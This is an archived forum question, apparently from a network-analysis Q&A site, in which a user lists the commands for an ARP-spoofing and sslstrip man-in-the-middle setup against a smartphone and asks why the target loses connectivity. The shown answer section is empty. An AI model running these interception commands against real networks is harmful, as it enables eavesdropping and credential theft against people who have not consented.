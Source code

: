 +++
type = "question"
title = "Victim loses connection"
description = '''I run: sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8095 sudo sslstrip -k -l 8095 then: sudo bash -c &#x27;echo &quot;1&quot; &amp;gt; /proc/sys/net/ipv4/ip_forward&#x27; sudo arpspoof -i wlan0 -t 192.168.1.123 192.168.1.254 Then my victim (smartphone which I want to intercept conne...'''
date = "2014-05-03T14:06:00Z"
lastmod = "2014-05-04T11:31:00Z"
weight = 32454
keywords = [ "arpspoofing" ]
aliases = [ "/questions/32454" ]
osqa_answers = 1
osqa_accepted = false
+++

<div class="headNormal">

# [Victim loses connection](/questions/32454/victim-loses-connection)

</div>

<div id="main-body">

<div id="askform">

<table id="question-table" style="width:100%;"><colgroup><col style="width: 50%" /><col style="width: 50%" /></colgroup><tbody><tr class="odd"><td style="width: 30px; vertical-align: top"><div class="vote-buttons"><span id="post-32454-upvote" class="ajax-command post-vote up" rel="nofollow" title="I like this post (click again to cancel)"> </span><div id="post-32454-score" class="post-score" title="current number of votes">0</div><span id="post-32454-downvote" class="ajax-command post-vote down" rel="nofollow" title="I dont like this post (click again to cancel)"> </span> <span id="favorite-mark" class="ajax-command favorite-mark" rel="nofollow" title="mark/unmark this question as favorite (click again to cancel)"> </span><div id="favorite-count" class="favorite-count"></div></div></td><td><div id="item-right"><div class="question-body"><p>I run:</p><p>sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8095</p><p>sudo sslstrip -k -l 8095</p><p>then:</p><p>sudo bash -c 'echo "1" &gt; /proc/sys/net/ipv4/ip_forward'</p><p>sudo arpspoof -i wlan0 -t 192.168.1.123 192.168.1.254</p><p>Then my victim (smartphone which I want to intercept connection to for fun) loses internet connection. I disabled firewall (I use ubuntu), but it is still the same. Why?</p><p>By the way, connection is secured by wpa2 (i have preshared key obviously), maybe that's what causes it..?</p></div><div id="question-tags" class="tags-container tags"><span class="post-tag tag-link-arpspoofing" rel="tag" title="see questions tagged &#39;arpspoofing&#39;">arpspoofing</span></div><div id="question-controls" class="post-controls"></div><div class="post-update-info-container"><div class="post-update-info post-update-info-user"><p>asked <strong>03 May '14, 14:06</strong></p><img src="https://secure.gravatar.com/avatar/eeca75356089d0569c63dfc514d7f19d?s=32&amp;d=identicon&amp;r=g" class="gravatar" width="32" height="32" alt="tttttttttttt2&#39;s gravatar image" /><p><span>tttttttttttt2</span><br />
<span class="score" title="34 reputation points">34</span><span title="7 badges"><span class="badge1">●</span><span class="badgecount">7</span></span><span title="9 badges"><span class="silver">●</span><span class="badgecount">9</span></span><span title="12 badges"><span class="bronze">●</span><span class="badgecount">12</span></span><br />
<span class="accept_rate" title="Rate of the user&#39;s accepted answers">accept rate:</span> <span title="tttttttttttt2 has no accepted answers">0%</span></p></div><div class="post-update-info post-update-info-edited"><p><span> edited <strong>03 May '14, 14:09</strong> </span></p></div></div><div id="comments-container-32454" class="comments-container"></div><div id="comment-tools-32454" class="comment-tools"></div><div class="clear"></div><div id="comment-32454-form-container" class="comment-form-container"></div><div class="clear"></div></div></td></tr></tbody></table>

------------------------------------------------------------------------

<div class="tabBar">

<span id="sort-top"></span>

<div class="headQuestions">

One Answer:

</div>

</div>

<span id="32456"></span>
